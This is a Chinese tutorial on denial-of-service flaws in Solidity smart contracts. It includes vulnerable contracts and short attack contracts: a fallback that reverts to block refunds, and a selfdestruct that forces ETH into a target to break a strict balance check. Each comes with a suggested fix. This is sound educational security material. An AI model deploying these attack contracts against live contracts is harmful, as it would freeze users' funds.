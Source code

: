 # DoS

拒绝服务（Denial of Service, DoS）漏洞，是恶意合约或者本身合约逻辑漏洞导致的合约全部或部分功能无法正常使用。DoS产生的原因有非常多，这里只举几个经典的例子：

#### 1.恶意revert导致DoS

来自于一个简化了的 Akutar 合约，名字叫 `DoSGame`。这个合约逻辑很简单，游戏开始时，玩家们调用 `deposit()` 函数往合约里存款，合约会记录下所有玩家地址和相应的存款；当游戏结束时，`refund()`函数被调用，将 ETH 依次退款给所有玩家

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

//以下的for循环出现了巨大的漏洞
    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
 //！！！！！！逻辑问题出现，如果call返回个false,这个函数全废掉！！！！！！！！！！！！！！！！
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

这里的漏洞在于，`refund()` 函数中利用循环退款的时候，是使用的 `call` 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

例如下面的合约，我拿合约存的钱，refund后call会调起fallback/receive，加个revert，call返回false，require回滚结果，refund函数全废掉，没有一个人的钱能拿回来：

```Solidity
contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
//解决方法也简单，去掉require，或者for循环去掉，改为用户主动取现就没这种事了
```

除此之外，for循环本身也有个大毛病，就算会随着数组长度而增加gas消耗，导致潜在的问题

```Solidity
function enter() public {
    // Check for duplicate entrants
    for (uint256 i; i < entrants.length; i++) {
        if (entrants[i] == msg.sender) {
            revert("You've already entered!");
        }
    }
    entrants.push(msg.sender);
}
//谁都能进很快这个就会很长，应该改成mapping来解决这个问题.
```

#### 2.恶意发钱导致DoS

当出现assert/require核对总余额时需要注意，这种判断有潜在bug

```Solidity
///github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishanding-of-eth/SelfDestructMe.sol提供的案例

// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract SelfDestructMe {
    uint256 public totalDeposits;
    mapping(address => uint256) public deposits;

    function deposit() external payable {
        deposits[msg.sender] += msg.value;
        totalDeposits += msg.value;
    }

    function withdraw() external {
        assert(address(this).balance == totalDeposits); // bad,应该至少改成大于等于
        uint256 amount = deposits[msg.sender];
        totalDeposits -= amount;
        deposits[msg.sender] = 0;

        payable(msg.sender).transfer(amount);
    }
}

contract AttackSelfDestructMe {
    SelfDestructMe target;

    constructor(SelfDestructMe _target) payable {
        target = _target;
    }

    function attack() external payable {
        selfdestruct(payable(address(target)));
    }
}
///合约自毁或者将目标合约地址设为beacon chain验证节点的收钱地址都会导致强制收钱
```

看上去上面的ETH只能通过`deposit`来转入合约，而等于号会一直保持，但是EVM机制中，`selfDestruct`合约销毁函数和beacon chain将合约地址设置为质押奖励接收地址（ 参考[ETH2Book](https://eth2book.info/capella/part2/deposits-withdrawals/withdrawal-processing/#performing-withdrawals)）都会导致不等号不成立，这两个机制都会强制对合约进行转账，导致DoS。